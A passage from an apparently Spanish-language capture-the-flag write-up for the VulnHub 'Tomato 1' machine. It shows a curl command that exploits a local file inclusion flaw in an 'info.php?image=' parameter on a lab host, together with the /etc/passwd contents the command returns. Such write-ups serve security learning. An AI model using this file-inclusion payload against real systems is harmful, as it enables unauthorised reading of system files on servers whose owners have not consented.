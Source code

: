 ![](/assets/images/vh-writeup-tomato1/Web6.png)

Vamos a ver si funciona

Y si podemos ver el `/etc/passwd` al final del todo

![](/assets/images/vh-writeup-tomato1/Web7.png)

```bash
❯ curl -s X GET "http://192.168.1.65/antibot_image/antibots/info.php?image=/etc/passwd" | grep "</body></html>" -A 1000 | sed 's/<\/div><\/body><\/html>//'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```